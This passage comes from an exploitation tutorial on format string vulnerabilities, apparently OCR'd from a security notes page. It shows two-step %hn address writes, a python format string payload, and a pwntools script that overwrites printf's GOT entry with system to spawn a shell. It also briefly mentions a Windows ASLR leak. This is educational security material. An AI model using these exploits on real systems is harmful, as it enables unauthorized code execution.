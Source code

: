 ```
As mentioned, to write the address, usually 2 steps are needed: You **first writes 2Bytes** of the address and then the other 2. To do so **`$hn`** is used.

- **HOB** is called to the 2 higher bytes of the address
- **LOB** is called to the 2 lower bytes of the address

Then, because of how format string works you need to **write first the smallest** of \[HOB, LOB] and then the other one.

If HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

If HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB_shellcode-8 NºParam_dir_HOB LOB_shell-HOB_shell NºParam_dir_LOB

```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
```
### Pwntools Template

You can find a **template** to prepare a exploit for this kind of vulnerability in:

[[format-strings-template.md]]

Or this basic example from [[https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite|**here**]]:

```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
```
## Format Strings to BOF

It's possible to abuse the write actions of a format string vulnerability to **write in addresses of the stack** and exploit a **buffer overflow** type of vulnerability.

## Windows x64: Format-string leak to bypass ASLR (no varargs)

On Windows x64 the first four integer/pointer parameters are passed in registers: RCX, RDX, R8, R9. In many buggy call-sites the attacker-controlled string is used as the format argument but no variadic arguments are provided, for example:

```c
// keyData is fully controlled by the client
// _snprintf(dst, len, fmt, ...)
```